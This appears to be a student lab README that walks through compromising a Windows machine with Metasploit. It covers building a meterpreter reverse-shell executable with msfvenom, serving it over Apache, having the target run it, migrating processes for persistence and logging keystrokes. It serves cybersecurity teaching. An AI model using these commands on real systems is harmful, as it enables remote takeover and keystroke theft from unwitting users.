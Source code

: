 ![image](https://github.com/user-attachments/assets/cd8a576f-0e54-4518-8052-bc002cc28630)# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:
![image](https://github.com/user-attachments/assets/3b077929-dea4-4724-876e-65b053b9119c)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT!
[Uploading image.png…]()


copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/user-attachments/assets/3994b5fa-7876-4069-a78f-736006b6bef5)


Start apache server
sudo systemctl apache2 start
![image](https://github.com/user-attachments/assets/1856b3a2-9b24-4708-a846-4e35ee09f9fb)


Check the status of apache2
![image](https://github.com/user-attachments/assets/3edd2f73-e9fd-4beb-a971-73606b7f0e3f)


Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
![image](https://github.com/user-attachments/assets/95f21f1a-6496-4fae-bc09-0f9af4e50276)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/user-attachments/assets/49d0b2a1-a77d-4e3e-aaef-7da5c81ca28a)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/user-attachments/assets/c301d7c1-8f0d-4ead-8f6f-dc8ed41c0650)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/user-attachments/assets/4575812f-f3dd-4b76-832f-b4695d10459a)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/user-attachments/assets/44ecd744-aac7-4770-a515-f1b48f0c5d30)

keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/7c3beadd-6b5a-4a06-8c9f-1e0c68d4313f)







## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
